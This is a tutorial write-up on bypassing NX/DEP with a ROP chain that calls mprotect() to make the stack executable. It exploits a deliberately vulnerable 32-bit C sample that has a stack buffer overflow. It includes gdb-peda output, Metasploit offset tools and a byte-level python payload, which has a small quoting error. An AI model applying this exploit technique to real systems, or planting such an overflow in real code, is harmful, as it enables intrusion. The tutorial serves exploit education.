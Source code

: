 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in
$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
...
Stopped reason: SIGSEGV 0x35724134 in ?? ()
$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

```
gdb-peda$ p mprotect $1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
Address of mprotect : 0xf7f2d2e0
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory
SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.
It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000
Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget
pop3ret = 0x8048882
```

Finally.

```
python -c "
    print'\xCC' * 524         # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'       # address of mprotect()
    +'\x82\x88\x04\x08'       # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'       # address of the stack
    +'\x00\x10\x02\x00'       # size of the stack
    +'\x07\x00\x00\x00'"      # flag read/write/execute
    +'\xc0\xd2\xff\xff'       # payload on the stack ;)
```

After calling mprotect you can notice the execution flag on the stack.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
